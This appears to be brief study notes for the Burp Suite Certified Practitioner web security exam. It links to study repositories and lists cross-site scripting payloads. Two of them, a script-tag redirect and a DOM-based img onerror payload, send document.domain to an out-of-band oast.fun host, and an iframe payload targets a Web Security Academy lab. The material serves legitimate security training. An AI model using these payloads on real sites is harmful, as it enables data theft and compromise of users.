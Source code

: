 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS


```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

```html
<iframe src="https://0a190064039da4c7853828e6009e004c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

`
```
